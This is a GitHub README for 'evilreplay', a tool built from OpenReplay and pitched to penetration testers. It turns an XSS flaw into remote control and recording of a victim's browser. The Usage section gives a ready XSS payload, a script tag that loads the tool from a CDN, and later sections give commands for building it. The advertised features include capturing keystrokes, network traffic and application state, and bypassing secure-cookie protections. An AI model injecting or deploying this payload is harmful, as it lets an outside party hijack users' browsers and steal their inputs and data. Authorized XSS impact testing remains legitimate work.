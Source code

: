 <p align="center">
  <a href="https://github.com/EgeBalci/evilreplay">
    <img src="https://github.com/EgeBalci/evilreplay/raw/master/.github/img/banner.png">
  </a>
</p>

<h3 align="center">Seamless remote browser control for pentesters</h3>

<p align="center">
  <a href="https://docs.openreplay.com/deployment/deploy-aws">
    <img src="static/btn-deploy-aws.svg" height="40"/>
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-gcp">
    <img src="static/btn-deploy-google-cloud.svg" height="40" />
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-azure">
    <img src="static/btn-deploy-azure.svg" height="40" />
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-digitalocean">
    <img src="static/btn-deploy-digital-ocean.svg" height="40" />
  </a>
</p>


This tool is a weaponized adaptation of the [OpenReplay project](https://github.com/openreplay/openreplay), tailored for penetration testers and security professionals to demonstrate and assess the impact of Cross-Site Scripting (XSS) vulnerabilities in restricted environments without the need for stealing cookies.

https://github.com/user-attachments/assets/ef0f4018-db54-47b4-8513-90ae7a244e3a

### 🔥 Key Features

* 🎯 **Remote Browser Control**
  Interact with the victim’s browser in real time via an intuitive UI — click buttons, follow links, and simulate keystrokes remotely.

* 📹 **Automatic Session Recording**
  All victim interactions are recorded, providing replayable sessions for easier analysis and reporting of XSS findings.

* 🔍 **Deep Visibility**
  Obtain user inputs and detailed browser diagnostics:
  
  * User keyboard/mouse inputs and events
  * Console logs & JS errors
  * Network requests and responses
  * Application state and store actions
  * 40+ performance and behavior metrics

* 🛡️ **Bypasses Secure Contexts**
  Capture data even when secure cookies and modern browser protections are in place.

## Usage

The following script can be used as a XSS payload. **(don't forget to change the `projectKey`)** Follow the [Building The Payload](#Building-The-Payload) section for compiling the payload from the source. (The `ingestPoint` parameter needs to be updated when self-hosting)


```html
<script src="https://cdn.jsdelivr.net/gh/EgeBalci/evilreplay@master/evilreplay.min.js" onload=evilreplay("OEeP7C6ysFPXP8mDI04T")></script>
```

## Building The Payload

For building the `evilreplay.js` XSS payload from the souce you need to install [bun](https://bun.sh/) follow the steps below.

```
git clone https://github.com/EgeBalci/evilreplay
cd ./evilreplay/tracker/tracker-assist
bun install 
bun run build 
cd ../tracker 
bun run build 

# XSS payload is built as dist/iife/evilreplay.js
```

## Deployment Options

OpenReplay can be deployed anywhere. Follow our step-by-step guides for deploying it on major public clouds:

- [AWS](https://docs.openreplay.com/deployment/deploy-aws)
- [Google Cloud](https://docs.openreplay.com/deployment/deploy-gcp)
- [Azure](https://docs.openreplay.com/deployment/deploy-azure)
- [Digital Ocean](https://docs.openreplay.com/deployment/deploy-digitalocean)
- [Scaleway](https://docs.openreplay.com/deployment/deploy-scaleway)
- [OVHcloud](https://docs.openreplay.com/deployment/deploy-ovhcloud)
- [Kubernetes](https://docs.openreplay.com/deployment/deploy-kubernetes)


